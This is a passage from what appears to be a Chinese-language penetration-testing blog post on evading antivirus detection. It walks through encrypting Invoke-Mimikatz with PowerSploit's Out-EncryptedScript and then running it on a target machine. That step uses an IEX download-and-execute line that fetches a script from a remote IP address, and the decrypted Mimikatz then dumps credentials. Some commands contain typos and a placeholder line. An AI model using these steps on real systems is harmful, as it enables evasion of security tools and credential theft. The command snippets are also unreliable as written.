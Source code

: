 #### 6.3 免杀处理

Powersploit 中提供的很多工具都是做过加密处理的，同时也提供了一些用来加密处理的脚本，Out-EncryptedScript 就是其中之一。

首先在本地对 Invoke-Mimikatz.ps1 进行加密处理：

```
poweshell.exe Import-Module .\\Out-EncryptedScript.ps1
poweshell.exe Out-EncryptedScript -ScriptPath .\\Invoke-Mimikatz.ps1 -Password 密码 -Salt 随机数
#默认生成的文件是evil.ps1

-Password   设置加密的密钥
-Salt       随机数，防止被暴力破解


```

将加密生成的 evil.sp1 脚本放在目标机上，执行如下命令：

```
#远程加载解密脚本
poweshell.exe 
IEX(New-Object Net.WebClient).DownloadString("http://1.1.1.32/PowerSploit/ScriptModification/Out-EncryptedScript.ps1")

\[String\] $cmd = Get-Content .\\evil.ps1
Invoke-Expression $cmd
$decrypted = de password salt
Invoke-Expression $decrypted
Invoke-Mimikatz


```

![](https://img2020.cnblogs.com/blog/1561366/202003/1561366-20200328204245945-1849115138.png)

### 0x07 参考链接

[https://3gstudent.github.io/3gstudent.github.io/](https://3gstudent.github.io/3gstudent.github.io/)  
[https://blog.csdn.net/dda6607/article/details/101262101](https://blog.csdn.net/dda6607/article/details/101262101)  
[https://blog.csdn.net/qq\_36119192/article/details/83057161](https://blog.csdn.net/qq_36119192/article/details/83057161)  
[https://blog.csdn.net/qq\_36119192/article/details/100634467](https://blog.csdn.net/qq_36119192/article/details/100634467)
